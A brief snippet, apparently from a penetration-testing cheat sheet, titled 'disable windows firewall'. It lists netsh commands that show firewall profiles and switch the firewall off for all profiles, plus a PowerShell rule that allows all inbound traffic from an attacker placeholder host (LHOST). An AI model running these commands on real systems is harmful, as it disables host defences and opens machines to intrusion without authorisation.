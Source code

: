 disable windows firewall

``Netsh Advfirewall show allprofiles
``NetSh Advfirewall set allprofiles state off``
``New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress LHOST


